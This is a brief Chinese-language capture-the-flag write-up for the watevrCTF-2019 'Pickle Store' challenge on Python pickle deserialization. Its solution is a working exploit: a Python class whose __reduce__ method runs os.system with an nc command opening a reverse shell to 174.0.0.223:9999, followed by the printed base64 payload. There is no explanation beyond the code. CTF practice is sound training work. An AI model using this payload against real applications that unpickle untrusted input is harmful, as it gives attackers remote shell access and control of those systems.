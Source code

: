 # [watevrCTF-2019]Pickle Store

## 知识点

`pickle反序列化`

## 解题

```python
import base64
import pickle


class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('nc 174.0.0.223 9999 -e/bin/sh')",))
a = A()
print( base64.b64encode( pickle.dumps(a) ) )
#gANjYnVpbHRpbnMKZXZhbApxAFg4AAAAX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDE3NC4wLjAuMjIzIDk5OTkgLWUvYmluL3NoJylxAYVxAlJxAy4=
```

